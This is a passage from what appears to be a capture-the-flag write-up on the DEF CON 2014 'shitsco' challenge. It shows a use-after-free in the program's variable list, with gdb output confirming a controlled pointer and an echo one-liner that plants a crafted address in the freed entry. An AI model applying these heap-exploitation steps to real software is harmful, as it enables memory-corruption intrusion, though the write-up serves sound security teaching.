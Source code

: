 Beautiful! We added 'aaaaaaaaaaaaaaaa' and 'bbbbbbbbbbbbbbbb', then freed them both (as I mentioned earlier, we have to empty out the list). Then we add 'c' with the value of 'AAAAAAAAAAAAAAAA', which should take over the memory that the list's 'head' points to. We, therefore, expect that the name, the value, the previous, and the next pointers all point to 0x41414141, so it's crashing when trying to dereference one of them.

And sure enough, we can verify with a debugger (I used a string with four different values so we can see what's happening):

```

$ gdb -q ./shitsco
Reading symbols from /home/ron/defcon-ctf-2014/shitsco/shitsco...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/ron/defcon-ctf-2014/shitsco/./shitsco

 oooooooo8 oooo        o88    o8
888         888ooooo   oooo o888oo  oooooooo8    ooooooo     ooooooo
 888oooooo  888   888   888  888   888ooooooo  888     888 888     888
        888 888   888   888  888           888 888         888     888
o88oooo888 o888o o888o o888o  888o 88oooooo88    88ooo888    88ooo88

Welcome to Shitsco Internet Operating System (IOS)
For a command list, enter ?
$ <strong>set a aaaaaaaaaaaaaaaa</strong>
$ <strong>set b bbbbbbbbbbbbbbbb</strong>
$ <strong>set a</strong>
$ <strong>set b</strong>
$ <strong>set c AAAABBBBCCCCDDDD</strong>
$ <strong>show</strong>
c: AAAABBBBCCCCDDDD

Program received signal SIGSEGV, Segmentation fault.
<span class="Constant">0x08048e98</span> in ?? ()
(gdb) x/i <span class="Identifier">$eip</span>
=> <span class="Constant">0x8048e98</span>:   mov    eax,DWORD PTR [ebx]
(gdb) <span class="Constant">print</span>/x <span class="Identifier">$ebx</span>
$1 = <span class="Constant">0x43434343</span>
```

Excellent! It's crashing when reading the 'next' pointer! That means we need to construct an appropriate struct in memory that we can point to. Or... we can just use the 'head' entry, which happens to be at 0x0804C36C. This will cause an infinite loop, but I'm okay with that.

I'm sick of typing manually, plus we want to start using some non-ascii characters, so let's do it all on the commandline:

```

$ echo -ne <span class="Constant">'set a aaaaaaaaaaaaaaaa\nset b bbbbbbbbbbbbbbbb\nset a\nset b\nset c AAAABBBB\x6c\xc3\x04\x08DDDD\nshow\n'</span> | ./shitsco

 oooooooo8 oooo        o88    o8
888         888ooooo   oooo o888oo  oooooooo8    ooooooo     ooooooo
 888oooooo  888   888   888  888   888ooooooo  888     888 888     888
        888 888   888   888  888           888 888         888     888
o88oooo888 o888o o888o o888o  888o 88oooooo88    88ooo888    88ooo88

Welcome to Shitsco Internet Operating System (IOS)
For a command list, enter ?
$ $ $ $ $ $ c: AAAABBBBlDDDD
Segmentation fault (core dumped)
```
